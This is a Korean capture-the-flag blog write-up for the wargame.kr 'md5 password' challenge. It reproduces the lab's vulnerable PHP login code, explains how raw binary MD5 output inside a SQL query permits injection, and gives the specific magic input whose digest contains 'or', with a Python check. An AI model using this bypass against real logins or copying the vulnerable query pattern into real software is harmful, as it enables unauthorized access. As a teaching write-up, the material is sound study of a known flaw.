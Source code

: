 ```yaml
---
title: ! "[wargame.kr] md5 password"
date: 2019-03-16
tags:
  - chaem
  - md5
  - wargame.kr
  - web
categories:
  - wargame.kr
---
```


md5 password 문제를 보면 다음과 같은 디스크립션을 볼 수 있다.  
![]({{ site.baseurl }}/assets/images/wargame.kr/md5_01.JPG)
```
md5('value', true);
```
md5에 관련된 문제임을 알 수 있다. 문제로 넘어가면 password를 입력하라고 하며, 소스를 보여준다!  

# 풀이  

코드를 보면 다음과 같다.  
```php
<?php
 if (isset($_GET['view-source'])) {
  show_source(__FILE__);
  exit();
 }

 if(isset($_POST['ps'])){
  sleep(1);
  mysql_connect("localhost","md5_password","md5_password_pz");
  mysql_select_db("md5_password");
  mysql_query("set names utf8");
  /*

  create table admin_password(
   password char(64) unique
  );

  */

  include "../lib.php"; // include for auth_code function.
  $key=auth_code("md5 password");
  $ps = mysql_real_escape_string($_POST['ps']);
  $row=@mysql_fetch_array(mysql_query("select * from admin_password where password='".md5($ps,true)."'"));
  if(isset($row[0])){
   echo "hello admin!"."<br />";
   echo "Password : ".$key;
  }else{
   echo "wrong..";
  }
 }
?>
<style>
 input[type=text] {width:200px;}
</style>
<br />
<br />
<form method="post" action="./index.php">
password : <input type="text" name="ps" /><input type="submit" value="login" />
</form>
<div><a href='?view-source'>get source</a></div>
```
이 중에서 다음 부분을 보면 md5함수를 사용하고 있는 것을 볼 수 있다.  
```
$row=@mysql_fetch_array(mysql_query("select * from admin_password where password='".md5($ps,true)."'"));
```
일단, php에서 md5함수를 어떻게 사용하는지 먼저 알아보았다.  
```
string md5 ( string $str ,[ bool $raw_output ] )
```
bool $raw_output 값이 true 일 경우 해시의 길이 16인 바이너리 형식으로 반환하고, 이 값을 생략하면 기본값은 false로 우리가 일반적으로 사용하는 md5함수와 같이 해시 값을 출력해준다.  

md5함수를 찾아보다가, md5 함수 취약점이 연관 검색어에 있어서 보게되었는데 [참고블로그](https://bbolmin.tistory.com/77) 요기에 내가 원하는 것이 딱 있었다.  
```
md5("string") -> 32자리의 16진수 값 반환
md5("string", true) -> 16자리의 바이너리 형식으로 반환
```

그리고 이것으로 md5함수를 true로 사용하면 `sql injection`이 가능하다눈 것을 알았다 호호  

그럼 앞에서 보았던 쿼리 문을 보자!  
```
select * from admin_password where password='".md5($ps,true)."'  
```
여기서 password 값에 `'or'`이 들어간다면 injection이 가능하게 된다.  
이 값을 찾는 과정은 [참고블로그](http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes) 여기에서 자세히 설명해 주고 있는 것 같다.  
나는 검색을 통해 찾았다.  
`129581926211651571912466741651878684928`를 입력하면 `'or'` 형태의 결과값을 얻을 수 있다고 한다.   

[참고블로그](https://cc0ma.github.io/wargame.kr-md5_password/) 요기에서 친절하게 python으로 테스트를 해주었는데, 따라해보면 다음과 같다.  
```
ubuntu@ubuntu:~$ python
Python 2.7.12 (default, Nov 12 2018, 14:36:49)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import hashlib
>>> print hashlib.md5("129581926211651571912466741651878684928").digest()
ٔ0Do#ࠁ'or'8
```
`'or'` 형태인 것을 확인할 수 있었다.  
따라서 `129581926211651571912466741651878684928`를 입력하면 flag를 획득할 수 있다.  
![]({{ site.baseurl }}/assets/images/wargame.kr/md5_02.JPG)
